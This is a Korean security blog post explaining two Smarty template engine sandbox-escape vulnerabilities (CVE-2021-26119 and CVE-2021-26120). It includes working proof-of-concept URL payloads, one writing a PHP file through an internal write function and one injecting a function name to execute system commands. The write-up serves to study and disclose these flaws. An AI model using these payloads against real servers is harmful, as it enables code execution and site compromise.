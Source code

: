 ```yaml
---

title: "[하루한줄] Smarty Template Engine Sandbox escape"
author: Fabu1ous
tags: [Fabu1ous, cve, sandbox, php, injection]
categories: [1day1line]
date: 2021-02-20 14:00:00
cc: true
index_img: /img/1day1line.png
---
```




## **URL**

[Smarty Template Engine Sandbox escape PHP Code Injection](https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html)



## **Target**

Smarty Endgine <= 3.1.38



## **Explain**

Smarty는 PHP용 template engine입니다. Smarty는 presentation(html/css)과 app logic을 분리시키는 PHP insulation(sandbox)을 통해 injection 공격의 피해범위를 제한합니다. 하지만 Template injection이 가능할 때 sandbox escape를 할 수 있는 취약점이 발견되었습니다.



* CVE-2021-26119

super global 변수 `$smarty.template_object`를 이용한  Template injection이 가능할 때 Smarty의 인스턴스에 접근할 수 있습니다. `compile`함수가 `{$poc=$smarty.template_object}`와 같은 값을 받으면 `$poc`에 `Smarty_Internal_Template` 객체를 할당합니다.

```
object(Smarty_Internal_Template)#7 (24) {  
  ["_objType"]=>
  int(2)  
  ["smarty"]=>
  &object(Smarty)#1 (76) { ... }
  ["source"]=>
  object(Smarty_Template_Source)#8 (16) { ... }
  ["parent"]=>
  object(Smarty)#1 (76) { ... }
  ["ext"]=>
  object(Smarty_Internal_Extension_Handler)#10 (4) { ... }
  ["compiled"]=>
  object(Smarty_Template_Compiled)#11 (12) { ... }
```

위는 `Smarty_Internal_Template`객체입니다. 해커는 `["smarty"]`또는 `["parent"]`값을 사용해 Smarty의 인스턴스에 접근할 수 있고 arbitrary file write로 공격 범위를 확장할 수 있습니다.

```URL
http://localhost:8000/page.php?poc=string:{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}
```



* CVE-2021-26120

template syntax를 컴파일하는 과정에서 `Smarty_Internal_Runtime_TPlFunction`클래스는 attacker controlled data인 `name`을 필터링하지 않아 함수 인젝션을 할 수 있습니다.

```javascript
/* input = {function name='test'}{/function} */

if (!function_exists('smarty_template_function_test_8782550315ffc7c00946f78_05745875')) {
    function smarty_template_function_test_8782550315ffc7c00946f78_05745875(Smarty_Internal_Template $_smarty_tpl,$params) {
	    foreach ($params as $key => $value) {
            $_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
        }
    }
}

```

입력 `{function name='test'}{/function}`을 받은 컴파일러는 위와 같은 코드를 생성합니다. 

```URL
http://localhost:8000/page.php?poc=string:{function+name='rce(){};system("id");function+'}{/function}
```

